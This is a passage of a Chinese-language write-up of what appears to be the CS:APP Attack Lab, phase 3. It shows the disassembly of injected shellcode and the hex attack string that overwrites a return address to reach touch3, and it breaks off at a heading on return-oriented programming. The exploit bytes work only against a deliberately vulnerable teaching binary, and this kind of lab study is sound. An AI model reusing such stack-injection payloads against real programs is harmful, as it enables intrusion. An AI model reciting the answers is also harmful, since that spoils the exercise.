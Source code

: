 以下是对上面代码汇编、反汇编后的代码：
```bash
# 该内容存放在dis3.s文件中
ass3.o：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 fa 18 40 00       	pushq  $0x4018fa
   5:	48 b8 35 39 62 39 39 	movabs $0x6166373939623935,%rax
   c:	37 66 61 
   f:	48 89 04 25 29 dc 61 	mov    %rax,0x5561dc29
  16:	55 
  17:	c6 04 25 31 dc 61 55 	movb   $0x0,0x5561dc31
  1e:	00 
  1f:	48 c7 c7 29 dc 61 55 	mov    $0x5561dc29,%rdi
  26:	c3                   	retq     
```

以下是根据汇编代码以及其他信息所编写16进制的攻击代码：
```c
/* 该内容存放在strs3文件中 */
68 fa 18 40 00 48 b8 35 /* pushq $0x4018fa */ /* the addr of touch3 */
39 62 39 39 37 66 61 48 /* movq $0x6166373939623935,%rax */
89 04 25 29 dc 61 55 c6 /* movq %rax,0x5561dc29 */
04 25 31 dc 61 55 00 48 /* movb $0,0x5561dc31 */
c7 c7 29 dc 61 55 c3 00 /* movq $0x5561dc29,%rdi */ /* retq */
78 dc 61 55 00 00 00 0a /* 0x5561dc78, the addr of $rsp which should be
written */
```

以下通过第三关的界面：
![pass3](image/2021-07-13-16-57-24.png)

---

#### 3.3 面向返回编程攻击
